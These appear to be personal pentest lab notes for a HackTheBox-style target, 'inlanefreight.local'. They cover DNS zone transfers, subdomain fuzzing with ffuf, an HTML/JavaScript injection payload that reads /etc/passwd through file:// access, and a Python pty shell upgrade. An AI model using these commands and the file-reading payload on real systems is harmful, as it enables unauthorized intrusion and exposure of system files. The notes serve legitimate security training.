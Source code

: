 ## initial foothold

Start with an Nmap , this is a sheetcheat  [cheatsheet](https://github.com/leonjza/awesome-nmap-grep) to "cut through the noise"

The first thing we check if we have a transfer zone : 
```shell-session
dig axfr inlanefreight.local @10.129.203.101
```

with this command, we might find additional sub domains , ce can also use **ffuf** with this world list **seclists/Discovery/DNS/namelist.txt** to enumerate sub domains 
```shell-session
ffuf -w namelist.txt:FUZZ -u http://10.129.203.101/ -H 'Host:FUZZ.inlanefreight.local' -fs 15157
```
The fs, can be found with a curl to filter the content
```shell-session
curl -s -I http://10.129.203.101 -H "HOST: defnotvalid.inlanefreight.local" | grep "Content-Length:"

Content-Length: 15157
```

an example of html and JS injection  following this [post](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f)

```javascript
	<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
## Getting interactive shell
This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) describes a few methods. We could use a method that was also covered in the [Types of Shells](https://academy.hackthebox.com/module/77/section/725) section of the `Getting Started` module

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```